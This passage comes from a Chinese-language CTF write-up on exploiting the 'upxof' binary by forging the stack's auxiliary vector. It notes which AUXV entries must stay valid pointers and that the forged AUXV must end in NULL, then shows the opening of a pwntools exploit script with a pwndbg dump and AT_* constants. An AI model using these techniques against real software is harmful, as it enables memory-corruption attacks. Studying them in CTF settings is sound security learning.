 0x7fffffffe4d9就是一个指针。所以我们在伪造的时候要注意有一小部分的辅助向量所对应的值是“指针”，我们不能随便给比如0xdeadbeef，否则会动态链接“库”时在ld.so中崩溃。

> AT_ENTRY、AT_PHDR、AT_RANDOM、AT_SYSINFO_EHDR对应的为指针，但是经过测试，除AT_RANDOM和AT_ENTRY之外的辅助向量他们都可以随便伪造，比如：p64(0xdeadbeef)、p64(0x0)
>

payload中伪造的AUXV顺序可以与原来程序的顺序不同，因为是根据a_type进行赋值的：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1629477277855-c8b23717-ff1c-43b2-9e5c-60b32249fb6e.png)

还有，伪造的AUXV必须以NULL结尾，否则容易出错；其他需要注意的事项都在如下的脚本中：

```python
# coding:utf-8
from pwn import *
context.log_level = 'debug'
context.arch="amd64" #使用pwntools的shellcode一定要指定程序架构
context.terminal = ['tmux','splitw','-h']

p=process("./upxof")
elf=ELF("./unpack") #elf为脱壳后的程序
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

'''
pwndbg> auxv
AT_BASE                  0x0
AT_CLKTCK                0x64
AT_EGID                  0x0
AT_ENTRY                 0x400988 ◂— sub    rsp, 0x80
AT_EUID                  0x0
AT_EXECFN                /root/Canary_User_Mode/ctf2/upxof
AT_FLAGS                 0x0
AT_GID                   0x0
AT_HWCAP                 0xf8bfbff
AT_NULL                  0x0
AT_PAGESZ                0x1000
AT_PHDR                  0x400040 ◂— add    dword ptr [rax], eax
AT_PHENT                 0x38
AT_PHNUM                 0x2
AT_PLATFORM              x86_64
AT_RANDOM                0x7fffffffe4d9 ◂— 0x78e1e590d18a1f34
AT_SECURE                0x0
AT_SYSINFO_EHDR          0x7ffff7ffd000 ◂— jg     0x7ffff7ffd047
AT_UID                   0x0
AT_UNKNOWN26             0x0
pwndbg> 
'''

fake_AT_BASE_key=7 
fake_AT_CLKTCK_key=17
fake_AT_EGID_key=14
fake_AT_ENTRY_key=9
fake_AT_EUID_key=12
fake_AT_EXECFN_key=31
fake_AT_FLAGS_key=8
fake_AT_GID_key=13
fake_AT_HWCAP_key=16
fake_AT_NULL_key=0
fake_AT_PAGESZ_key=6
fake_AT_PHDR_key=3
fake_AT_PHENT_key=4
fake_AT_PHNUM_key=5
fake_AT_PLATFORM_key=15
fake_AT_RANDOM_key=25
fake_AT_SECURE_key=23
```